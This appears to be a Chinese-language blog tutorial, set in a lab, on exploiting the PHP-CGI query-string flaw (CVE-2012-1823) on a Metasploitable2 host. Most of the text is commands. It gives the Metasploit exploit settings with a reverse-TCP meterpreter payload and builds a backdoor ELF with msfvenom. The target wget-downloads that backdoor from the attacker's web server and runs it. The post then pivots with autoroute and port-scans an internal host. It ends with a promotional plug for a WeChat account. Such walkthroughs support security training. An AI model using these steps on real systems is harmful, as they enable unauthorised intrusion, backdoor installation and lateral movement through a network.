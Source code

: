 ```yaml
---
layout: post
category: curleyg-code-hack
title: Metasploit攻击PHP-CGI查询字符串参数漏洞并渗透内网
tagline: by CurleyG
tag: [hack,curleyg-code-hack]
excerpt: Metasploit攻击PHP-CGI查询字符串参数漏洞并渗透内网
lock: need
---
```


# Metasploit攻击PHP-CGI查询字符串参数漏洞并渗透内网

攻击机：Kali 192.168.109.137

靶机： Metasploitable2 192.168.109.159

内网另一台主机 Windows Server 2012

工具：Metasploit

目标计算机上的漏洞编号为CVE id 2012-1823，完整的名称为PHP-CGI查询字符串参数漏洞，根据PHP主页的信息，当PHP使用基于CGI的设置(如Apache的mod_cgid)时，php-cgi就会收到一个查询字符串参数作为命令行参数(这个命令行参数可以是-s、-d或者-c),它将被传递到php-cgi程序，从而导致源代码泄露和任意代码执行。因此，一个远程的、未经授权的攻击者可以借此获取敏感信息，利用目标计算机来进行Dos攻击，或者取得Web服务器执行任意代码的权限。

## 开启MSF

```
msfconsole
```

## 查找MSF中与CVE id 2012-1823漏洞匹配的模块

```
search "php 5.2.4"
```

## 对漏洞进行渗透

```
use exploit/multi/http/php_cgi_arg_injection
show options
set RHOST 192.168.109.159
show options
show payloads
set payload php/meterpreter/reverse_tcp
show options
set LHOST 192.168.109.137
exploit
```

现在，我们攻克了IP地址为192.168.109.159的内部系统了，现在我们需要将Meterpreter提升为更高的权限

## 生成木马文件

在攻击机Kali上新开一个命令行终端，执行如下命令：

```
msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST 192.168.109.137 LPORT 4444 -f elf > backdoor.elf
```

注：elf是Linux系统下的默认扩展名

## 启动Kali上的Apache服务并将backdoor.elf放置到服务器中

```
service apache2 start
mv backdoor.elf /var/www/html/
```

这样，就可以让目标系统从我们的计算机中下载这个木马文件了。

## 在目标机上下载木马文件

切换到第3步的终端，执行命令：

```
shell
wget http://192.168.109.137/backdoor.elf
```

即将木马文件下载到了目标机上

## 在新开启的终端上执行如下命令

```
msfconsole
use exploit/multi/handler
set payload linux/x86/meterpreter/reverse_tcp
set LHOST 192.168.109.137
set LPORT 4444
exploit
```

## 在目标机上运行木马文件

切换到第3步的终端，执行命令：

```
chmod 7777 backdoor.elf
./backdoor.elf
```

## 查看反弹的Meterpreter终端

回到新开启的终端上查看，此时，我们看到已经反弹回Meterpreter命令行了。

接下来，就可以在Meterpreter终端进行操作了。

**下面，我们渗透内部网络。**

## 查看ARP内容

```
arp
```

由输出可以看出，内网中有另一主机IP地址为：192.168.109.141

为了渗透进入这个内部网络，需要在成功渗透的主机上使用autoroute命令来设置跳板。

## 设置跳板

在Meterpreter终端执行：

```
run autoroute -p
run autoroute -s 192.168.109.0 255.255.255.0
run autoroute -p
```

此时，我们的MSF就可以通过这个Meterpreter会话连接到内部网络。

## 将Meterpreter会话切换到后台

```
background
```

## 内网主机192.168.109.141进行端口扫描

```
use auxiliary/scanner/portscan/tcp
show options
setg RHOSTS 192.168.109.141
run
```

注意：设置RHOSTS的值时，这里使用的是setg命令，这样就会使RHOSTS的值设置为全局的192.168.109.141，从而无需反复输入这个命令。

这里，我们仅仅看到少数几个开发的端口，接下来，我们使用MSF中对应工具对常见的端口再进行详细的扫描。使用auxiliary/scanner/http/http_header模块对目标80和8080端口进行扫描，以发现在这两个端口上运行的服务。

## 查看在80、8080端口上运行的服务

```
use auxiliary/scanner/http/http_header
set RHOSTS 192.168.109.141
set HTTP_METHOD GET
run
set RPORT 8080
run
```

从输出中可以看到，目标计算机80端口上运行着最新的IIS 8.5, 这是一个很难渗透的服务器，因为并没有在这个服务器上发现高危的漏洞。不过，在8080端口上运行着HFS 2.3，这个软件存在着一个远程代码执行漏洞。


## 写在最后

> 如果你觉得冰河写的还不错，请微信搜索并关注「 **冰河技术** 」微信公众号，跟冰河学习高并发、分布式、微服务、大数据、互联网和云原生技术，「 **冰河技术** 」微信公众号更新了大量技术专题，每一篇技术文章干货满满！不少读者已经通过阅读「 **冰河技术** 」微信公众号文章，吊打面试官，成功跳槽到大厂；也有不少读者实现了技术上的飞跃，成为公司的技术骨干！如果你也想像他们一样提升自己的能力，实现技术能力的飞跃，进大厂，升职加薪，那就关注「 **冰河技术** 」微信公众号吧，每天更新超硬核技术干货，让你对如何提升技术能力不再迷茫！


![](https://img-blog.csdnimg.cn/20200906013715889.png)
